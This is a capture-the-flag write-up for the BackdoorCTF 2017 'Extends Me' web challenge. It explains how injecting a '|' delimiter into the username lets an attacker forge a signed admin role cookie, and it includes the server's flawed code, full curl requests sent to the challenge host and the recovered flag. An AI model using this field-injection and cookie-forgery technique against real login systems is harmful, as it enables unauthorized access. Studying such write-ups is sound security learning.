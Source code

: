 ```yaml
---
layout: post
title:  "BackdoorCTF 2017 - Extends Me"
date:   2017-09-24 22:00
categories: CTF
tags: [BackdoorCTF2017]
categories: [web]
author: jbz
---
```


The challenge was about gaining access to a web server protected by a login. Crypto/Web 250

The server source code is available [here](https://github.com/jbzteam/CTF/blob/master/BackdoorCTF2017/server.py).

The server was using SLHA1 (a custom version of SHA1 with initial status and round constant slightly changed) to hash the `data` cookie in the following format:
`key|username|user`


`key` is a Secret constant.  
`username` is the user-provided username.  
`user` is the user's role (`user` or `admin`).  
`|` is the `|` character. *This will be useful later.*

The `user` cookie contains the user's role base64-encoded. The server check the role in the following way:
```python
if 'admin' in user: # too lazy to check properly :p
    return "Here you go : CTF{XXXXXXXXXXXXXXXXXXXXXXXXX}"
```

This approach has lots of unintended problem.

First of all, this is the *if* that checks if the data cookie is valid (and the user is authenticated). 
```python
if data != SLHA1(temp).digest():
    temp = SLHA1(temp).digest().encode('base64').strip().replace('\n','')
    # [...]
    resp.set_cookie('data',temp)
```

If the cookie isn't valid the server will take the current user information and make a new hash, making it valid for the next request. (***WAT?***)

Returning to our writeup.  
Another problem that I've immediately noticed was that the server didn't check if `username` contains the `|` character.

So I've made a first request with username `nick|admin`, the server will concatenate `key`, `nick|admin` and `user` (server's defualt role) and the cookie will be `SLHA1("key|nick|admin|user")`  

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick|admin' --compressed
```

Then I've base64encoded the `admin|user` string.

```python
print("admin|user".encode('base64'))
# YWRtaW58dXNlcg==
```

Finally, a request with username set as `nick` and the user cookie set to `base64(admin|user)`.

The server will concatenate `key`, `nick` and `admin|user` and the SLHA1 hash will correspond.

```
curl --cookie-jar - 'https://extend-me-please.herokuapp.com/login' -H 'Referer: https://extend-me-please.herokuapp.com/login' -H 'Origin: https://extend-me-please.herokuapp.com' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.78 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded' --data 'username=nick' --compressed --cookie 'user="YWRtaW58dXNlcg==";data="dwqBEszNafW8LI15fObzONQwD50zbr/Y"'
```


`Here you go : CTF{4lw4y3_u53_hm4c_f0r_4u7h}`

***Clearly***, by looking at the challange name and also at the flag, the intended solution was hash lenght extension. `¯\_(ツ)_/¯`